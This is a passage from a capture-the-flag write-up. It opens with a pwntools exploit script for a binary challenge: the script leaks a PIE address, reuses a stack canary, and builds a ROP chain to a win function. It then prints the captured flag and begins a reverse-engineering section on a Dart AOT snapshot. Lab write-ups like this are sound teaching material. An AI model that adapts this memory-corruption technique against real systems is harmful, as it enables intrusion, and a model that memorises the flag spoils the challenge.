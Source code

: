 ```py 
# How to obtain this index? 
# run fuzzer.py, look for the first value that has 0x55 or 0x56. these usually indicate PIE addresses since PIE always
# starts with 0x55 or 0x56.
# there's another one at -183, but -31 is easier to use cos -183 points to unknown addr 
p.sendline("-31")
p.recvuntil(b'You chose ')
pie = u64(p.recvline().strip().ljust(8, b'\x00'))
print(hex(pie))

# shld be 0x55...970

pie = pie - 0x970
print(hex(pie))
print(hex(pie + elf.symbols.win)) # we want this :)

# clear tutorial
p.sendline(i_win())

p.sendline(i_win())
p.sendline(i_win())
p.sendline(i_win())
p.sendline(i_win())
win = i_win()
payload = flat(
    win + b'A'*(8 - len(win)),
    canary,
    b'A'*8,
    pie + rop.ret.address, # movaps issue - ask in discord if not sure what this is
    pie + elf.symbols.win,
)
print(payload)
p.sendline(payload)
p.interactive()

```

The above exploit script will get the flag `ACSI{sp0nge_b3ats_gun_a46h01}`.

## RE

### Ancient Ape

> The vault to the ancient treasures is guarded by an Ape. He only speaks Dart for some reason.
> 
> Author: Samuel

We are given an AOT (ahead-of-time) snapshot, and the challenge description tells us that it is written in Dart. Running the snapshot with `dartaotruntime` will give us this:

![](https://i.imgur.com/mjqWCJo.png)

